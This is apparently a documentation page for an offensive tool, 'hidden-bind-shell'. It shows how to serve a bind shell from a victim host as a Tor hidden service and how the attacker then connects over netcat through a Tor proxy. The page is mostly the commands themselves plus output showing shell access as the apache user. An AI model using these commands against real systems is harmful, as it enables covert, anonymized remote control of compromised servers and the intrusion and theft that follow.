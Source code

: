 # Multi-shell access with hidden-bind-shell

In order to get a bind shell served by Victim1 on the Tor network, we will use **hidden-bind-shell** as follows. As shown in the following illustration, the victim publish a Hidden Server so that any connection will serve a shell.

{% hint style="danger" %}
When the bind shell is publish, any access will be replied with a shell. **Use with CAUTION!**
{% endhint %}

![Hidden Service as Bind Shell](../.gitbook/assets/03_hidden-bind-shell.png)

## 1. Hidden Service for bind shell

In order to get a bind shell served by Victim1, we will use **hidden-bind-shell**. We need to specify the hidden service port with **-hiddensrvport** parameter and the datadir with **-data-dir** parameter.

```text
[victim1]$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi6j3rqog6yew.onion:1234
```

{% hint style="warning" %}
Using **-data-dir** parameter is specially important here. It will contain the keys for the Hidden Service so that the onion address doesn't change. If not specified, each execution will create a different Hidden Service.
{% endhint %}

## 2. Connect to the bind shell

Now that the Hidden Service is listening, the attacker will attempt to gain a shell:

{% hint style="info" %}
Note that the Tor instance proxy must be running so that the traffix is rooted to Tor network.
{% endhint %}

```text
[attacker]$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
[attacker]$ nctor -v hgnzi6j3rqog6yew.onion 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```


